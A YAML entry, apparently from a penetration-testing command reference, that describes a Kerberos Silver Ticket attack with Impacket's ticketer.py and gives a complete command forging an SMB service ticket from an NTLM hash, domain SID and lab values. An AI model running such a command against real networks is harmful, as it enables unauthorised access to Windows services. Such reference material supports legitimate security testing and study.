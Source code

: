 ```yaml
---
description: |
  Impacket's ticketer.py can perform Silver Ticket attacks, which crafts a valid TGS ticket for a specific service using a valid user's NTLM hash. It is then possible to gain access to that service. The following command crafts a TGS for the SMB service, which can then be used to gain a shell.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: b18b4b218eccad1c223306ea1916885f

  	Domain SID: S-1-5-21-1339291983-1349129144-367733775

  	SMB Service: cifs

command: |
  python3 ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain test.local -dc-ip 10.10.10.1 -spn cifs/test.local john
items:
  - Username
  - Hash
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
---
```

